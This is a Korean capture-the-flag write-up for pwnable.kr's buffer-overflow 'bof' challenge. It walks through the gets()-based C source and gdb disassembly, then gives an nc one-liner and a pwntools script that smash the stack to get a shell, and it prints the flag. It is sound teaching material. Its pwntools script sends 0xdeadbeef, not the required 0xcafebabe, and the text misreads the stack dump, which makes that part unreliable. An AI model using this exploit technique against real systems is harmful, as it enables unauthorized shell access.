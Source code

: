# 문제  
Nana told me that buffer overflow is one of the most common software vulnerability.
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000

---
# 개요
nc(Netcat)은 TCP나 UDP 프로토콜을 사용하는 네트워크 연결에서 데이터를 읽고 쓰는 간단한 유틸리티 프로그램입니다. 문제 해결을 위해 두 개의 링크를 제시하고 있습니다. 하나는 bof 바이너리이고, 다른 하나는 바이너리의 소스코드를 보여주고 있습니다. 문제 해결을 위해 먼저 소스코드부터 분석해야 합니다.  
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
main함수내에서 func 함수 한개만 호출하므로 func 함수를 분석해야 합니다.  
먼저 overflowme라는 char 형 배열이 선언되어 있고 gets 함수를 통해 입력 받습니다. 그리고 key 정수 값이 0xcafebabe 라면 system("/bin/sh") 가 실행되어 쉘을 획득할 수 있습니다. gets 함수는 길이 값 검사를 하지 않아 overflow 취약점이 발생하는 함수입니다. gdb를 이용하여 다운받은 바이너리를 분석하여 취약점을 검증하고 이를 이용하여 shell을 획득하겠습니다.

#분석
gdb를 사용하여 bof 바이너리의 main함수를 디스어셈블리 한 모습입니다.
```
secretpack@ubuntu:~$ gdb -q bof
Reading symbols from bof...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   0x0000068a <+0>:	push   %ebp
   0x0000068b <+1>:	mov    %esp,%ebp
   0x0000068d <+3>:	and    $0xfffffff0,%esp
   0x00000690 <+6>:	sub    $0x10,%esp
   0x00000693 <+9>:	movl   $0xdeadbeef,(%esp)
   0x0000069a <+16>:	call   0x62c <func>
   0x0000069f <+21>:	mov    $0x0,%eax
   0x000006a4 <+26>:	leave  
   0x000006a5 <+27>:	ret    
End of assembler dump.
(gdb)
```
main+16위치에서 func 함수를 call 하는 것을 볼 수 있습니다.  
func 함수를 분석해봅시다.  
```
(gdb) disas func
Dump of assembler code for function func:
   0x0000062c <+0>:	push   %ebp
   0x0000062d <+1>:	mov    %esp,%ebp
   0x0000062f <+3>:	sub    $0x48,%esp
   0x00000632 <+6>:	mov    %gs:0x14,%eax
   0x00000638 <+12>:	mov    %eax,-0xc(%ebp)
   0x0000063b <+15>:	xor    %eax,%eax
   0x0000063d <+17>:	movl   $0x78c,(%esp)
   0x00000644 <+24>:	call   0x645 <func+25>
   0x00000649 <+29>:	lea    -0x2c(%ebp),%eax
   0x0000064c <+32>:	mov    %eax,(%esp)
   0x0000064f <+35>:	call   0x650 <func+36>
   0x00000654 <+40>:	cmpl   $0xcafebabe,0x8(%ebp)
   0x0000065b <+47>:	jne    0x66b <func+63>
   0x0000065d <+49>:	movl   $0x79b,(%esp)
   0x00000664 <+56>:	call   0x665 <func+57>
   0x00000669 <+61>:	jmp    0x677 <func+75>
   0x0000066b <+63>:	movl   $0x7a3,(%esp)
   0x00000672 <+70>:	call   0x673 <func+71>
   0x00000677 <+75>:	mov    -0xc(%ebp),%eax
   0x0000067a <+78>:	xor    %gs:0x14,%eax
   0x00000681 <+85>:	je     0x688 <func+92>
   0x00000683 <+87>:	call   0x684 <func+88>
   0x00000688 <+92>:	leave  
   0x00000689 <+93>:	ret    
End of assembler dump.
(gdb)
```
0x48(72) 만큼의 버퍼를 할당하고 0x0000064f에서 입력 함수를 call 하여 eax에 집어 넣는 것을 확인할 수 있습니다. 그리고 0x00000654에서 cmp 문을 통해 cafebabe와 ebp - 8(key)와 비교합니다.
이제 overflow를 일으켜봅시다.
```
(gdb) b *func+40
Breakpoint 1 at 0x654
```
입력받은 바로 다음에 실행될 부분에 Breakpoint를 걸어줍니다.
```
(gdb) r <<< $(python -c 'print "A" * 40')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/secretpack/bof <<< $(python -c 'print "A" * 40')
overflow me :

Breakpoint 1, 0x56555654 in func ()
(gdb) x/100x $esp
0xffffd5c0:	0xffffd5dc	0xffffd664	0xf7fb7000	0x0000c287
0xffffd5d0:	0xffffffff	0x0000002f	0xf7e13dc8	0x41414141
0xffffd5e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd600:	0x41414141	0xf7fb7000	0xffffd628	0x5655569f
0xffffd610:	0xdeadbeef	0x56555250	0x565556b9	0x00000000
```
A라는 문자열로 40byte만큼의 버퍼를 채운 모습입니다.
아래쪽에 key 변수에 저장되어 있는 0xcafebabe가 보입니다.
이를 바탕으로 공격 코드를 작성합니다.
```
secretpack@ubuntu:~$(python -c 'print "A"*52 + "\xbe\xba\xfe\xca" +"\n"';cat) | nc pwnable.kr 9000
$ls
bof
bof.c
flag
log
log2
super.pl
$cat flag
daddy, I just pwned a buFFer :)
```
```python
from pwn import*
p = remote("pwnable.kr",9000)
payload = "A"*52
payload += p32(0xdeadbeef)
payload += "\n"

p.send(payload)
p.interactive()
```
